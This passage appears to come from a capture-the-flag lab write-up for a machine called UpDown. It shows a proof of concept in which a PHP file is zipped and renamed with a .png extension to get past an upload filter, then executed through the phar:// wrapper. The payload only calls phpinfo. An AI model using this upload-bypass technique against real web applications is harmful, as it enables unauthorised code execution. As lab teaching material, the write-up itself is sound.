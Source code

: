 ![image-20240305204524703](./UpDown.assets/image-20240305204524703.png)

## Foothold

### File Upload

**POC**:

1. Upload a zip file with png extension

```console
┌──[HQ🚀🌐172.16.218.134|172.17.0.1|10.10.16.8🔥qwe][👾~/pwk/linux/UpDown/vuln]
└─╼$ cat phpinfo.php
<?php phpinfo();?>
10.10.16.8

┌──[HQ🚀🌐172.16.218.134|172.17.0.1|10.10.16.8🔥qwe][👾~/pwk/linux/UpDown/vuln]
└─╼$ zip phpinfo.png phpinfo.php
updating: phpinfo.php (deflated 7%)
```

2. Execute phpinfo inside uploaded zip, `phar://path`

